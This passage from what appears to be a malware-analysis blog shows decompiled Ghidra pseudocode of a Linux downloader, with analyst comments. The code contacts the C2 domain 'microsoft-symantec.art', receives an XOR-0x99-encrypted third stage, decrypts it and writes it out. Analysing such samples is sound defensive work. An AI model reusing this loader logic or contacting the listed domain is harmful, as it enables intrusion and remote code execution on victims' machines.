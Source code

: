 [![3](/assets/images/china/snowlight_lin.png)](/assets/images/china/snowlight_lin.png){: .full}

We can look at the Ghidra psuedo-code and see identical capabilities as described in the previous blogs:

```c
///[...REDACTED...]
  iVar1 = access("/tmp/log_de.log",0);             // Check for "kill switch"? or prior infection?
  if (iVar1 != 0) {
    pcVar9 = "microsoft-symantec.art";
///[...REDACTED...]
      setsockopt(iVar1,6,7,&local_1474,4);
      while (iVar3 = connect(iVar1,&local_145c,0x10), iVar3 == -1) {   // connecting to C2
        sleep(10);
      }
      send(iVar1,"l64   ",6,0);                    // sending the l64 banner
      if (-1 < iVar3) {
        while( true ) {
          sVar6 = recv(iVar1,local_1028,0x1000,0); // recieving encryped 3rd stage
          iVar4 = (int)sVar6;
          pbVar7 = local_1028;
          if (iVar4 < 1) break;
          do {
            *pbVar7 = *pbVar7 ^ 0x99;              // Decrypting with XOR 0x99
            pbVar7 = pbVar7 + 1;
          } while ((int)pbVar7 - (int)local_1028 < iVar4);
          write(iVar3,local_1028,(long)iVar4);     // Writing decrypted output to memory
        }
///[...REDACTED...]


```
